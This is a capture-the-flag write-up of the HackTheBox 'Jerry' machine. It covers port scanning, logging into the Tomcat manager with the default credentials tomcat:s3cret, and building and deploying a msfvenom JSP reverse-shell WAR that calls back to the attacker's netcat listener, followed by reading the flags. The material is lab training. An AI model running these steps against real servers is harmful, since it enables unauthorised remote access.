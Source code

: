 ```yaml
---
description: Jerry writeup by Thamizhiniyan C S
---
```


# Jerry

## Overview

Hello everyone, In this writeup we are going to solve Jerry from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/Jerry](https://app.hackthebox.com/machines/Jerry)

Lets Start 🙌

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

\[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

***

## Reconnaissance

### Rustscan

First start the reconnaissance by running `rustscan` on the target IP address.

Command: `rustscan -a 10.10.10.95 -- -A -T4 -v -Pn`

<figure><img src="../../.gitbook/assets/Untitled (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Untitled 1 (22).png" alt=""><figcaption></figcaption></figure>

### Results

From the results of `rustscan`, we can see that on port `8080`, Apache Tomcat service is running.

***

## Information Gathering - Port 8080

I visited the web server running on `http://10.10.10.95:8080/`.

<figure><img src="../../.gitbook/assets/Untitled 2 (21).png" alt=""><figcaption></figcaption></figure>

We can see the default home page of the Apache Tomcat server. I started exploring by clicking all the buttons and links in the home page.

<figure><img src="../../.gitbook/assets/Untitled 3 (22).png" alt=""><figcaption></figcaption></figure>

I clicked the Manager App button and it redirected me to the following link: [http://10.10.10.95:8080/manager/html](http://10.10.10.95:8080/manager/html), which prompted me for a username and password:

<figure><img src="../../.gitbook/assets/Untitled 4 (21).png" alt=""><figcaption></figcaption></figure>

On investigating about the above URL, I found this&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials" %}

<figure><img src="../../.gitbook/assets/Untitled 5 (21).png" alt=""><figcaption></figcaption></figure>

***

## Enumeration - Port 8080

I tried `admin:admin` combination in the prompt and it thrown me the following error:

<figure><img src="../../.gitbook/assets/Untitled 6 (21).png" alt=""><figcaption></figcaption></figure>

From the above error, we can see that they have shown a example, in which they have used `tomcat:s3cret` combination. Let’s give it a try with this combination.

<figure><img src="../../.gitbook/assets/Untitled 7 (16).png" alt=""><figcaption></figcaption></figure>

It worked and we got access to the Application Manager.

Further surfing the Application Manager, we can see that there is an option to upload files of type WAR.

<figure><img src="../../.gitbook/assets/Untitled 8 (16).png" alt=""><figcaption></figcaption></figure>

***

## Initial Access

We can generate a `msfvenom` reverse shell and upload it as mentioned here:&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell" %}

<figure><img src="../../.gitbook/assets/Untitled 9 (16).png" alt=""><figcaption></figcaption></figure>

Generate the Reverse Shell using the following command:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<HTB_tun_IP> LPORT=8888 -f war -o revshell.war`

<figure><img src="../../.gitbook/assets/Untitled 10 (16).png" alt=""><figcaption></figcaption></figure>

Now upload this `revshell.war` file and click deploy.

<figure><img src="../../.gitbook/assets/Untitled 11 (15).png" alt=""><figcaption></figcaption></figure>

Now if we check the Applications table, we can see that a new path `/revshell` is generated.

<figure><img src="../../.gitbook/assets/Untitled 12 (15).png" alt=""><figcaption></figcaption></figure>

Before clicking or viewing the `/revshell` link, start a `netcat` listener on your attack box / local machine on port `8888`

<figure><img src="../../.gitbook/assets/Untitled 13 (15).png" alt=""><figcaption></figcaption></figure>

Now click the `/revshell` and check the `netcat` listener.

<figure><img src="../../.gitbook/assets/Untitled 14 (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Untitled 15 (13).png" alt=""><figcaption></figcaption></figure>

We have successfully got access to the target machine.

***

## Getting the Flags

Now we have to look out for the flags. I started surfing the machine. I visited the `C:\Users` directory and found the following users:

<figure><img src="../../.gitbook/assets/Untitled 16 (12).png" alt=""><figcaption></figcaption></figure>

I checked the Administrator directory. In the Desktop folder of Administrator found the `flags` directory.

<figure><img src="../../.gitbook/assets/Untitled 17 (11).png" alt=""><figcaption></figcaption></figure>

The flags directory had a file named `2 for the price of 1.txt`.

You can view the contents of the `2 for the price of 1.txt` file using the command: `more "2 for the price of 1.txt"`

<figure><img src="../../.gitbook/assets/Untitled 18 (11).png" alt=""><figcaption></figcaption></figure>

We have successfully found both the user and root flags.

Thank You !!!!!!!
